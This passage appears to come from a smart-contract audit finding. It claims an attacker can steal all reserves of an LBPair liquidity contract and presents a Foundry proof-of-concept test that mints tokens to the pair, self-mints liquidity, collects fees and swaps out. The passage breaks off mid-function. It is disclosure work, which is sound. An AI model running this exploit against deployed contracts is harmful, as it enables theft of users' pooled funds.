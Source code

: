 Attacker can steal the entire reserves of the LBPair.

### Proof of Concept

Paste this test in LBPair.Fees.t.sol:

        function testAttackerStealsReserve() public {
            uint256 amountY=  53333333333333331968;
            uint256 amountX = 100000;

            uint256 amountYInLiquidity = 100e18;
            uint256 totalFeesFromGetSwapX;
            uint256 totalFeesFromGetSwapY;

            addLiquidity(amountYInLiquidity, ID_ONE, 5, 0);
            uint256 id;
            (,,id ) = pair.getReservesAndId();
            console.log("id before" , id);

            //swap X -> Y and accrue X fees
            (uint256 amountXInForSwap, uint256 feesXFromGetSwap) = router.getSwapIn(pair, amountY, true);
            totalFeesFromGetSwapX += feesXFromGetSwap;

            token6D.mint(address(pair), amountXInForSwap);
            vm.prank(ALICE);
            pair.swap(true, DEV);
            (uint256 feesXTotal, , uint256 feesXProtocol, ) = pair.getGlobalFees();

            (,,id ) = pair.getReservesAndId();
            console.log("id after" , id);


            console.log("Bob balance:");
            console.log(token6D.balanceOf(BOB));
            console.log(token18D.balanceOf(BOB));
            console.log("-------------");

            uint256 amount0In = 100e18;

            uint256[] memory _ids = new uint256[](1); _ids[0] = uint256(ID_ONE);
            uint256[] memory _distributionX = new uint256[](1); _distributionX[0] = uint256(Constants.PRECISION);
            uint256[] memory _distributionY = new uint256[](1); _distributionY[0] = uint256(0);

            console.log("Minting for BOB:");
            console.log(amount0In);
            console.log("-------------");

            token6D.mint(address(pair), amount0In);
            //token18D.mint(address(pair), amount1In);
            pair.mint(_ids, _distributionX, _distributionY, address(pair));
            uint256[] memory amounts = new uint256[](1);
            console.log("***");
            for (uint256 i; i < 1; i++) {
                amounts[i] = pair.balanceOf(address(pair), _ids[i]);
                console.log(amounts[i]);
            }
            uint256[] memory profit_ids = new uint256[](1); profit_ids[0] = 8388608;
            (uint256 profit_X, uint256 profit_Y) = pair.pendingFees(address(pair), profit_ids);
            console.log("profit x", profit_X);
            console.log("profit y", profit_Y);
            pair.collectFees(address(pair), profit_ids);
            (uint256 swap_x, uint256 swap_y) = pair.swap(true,BOB);
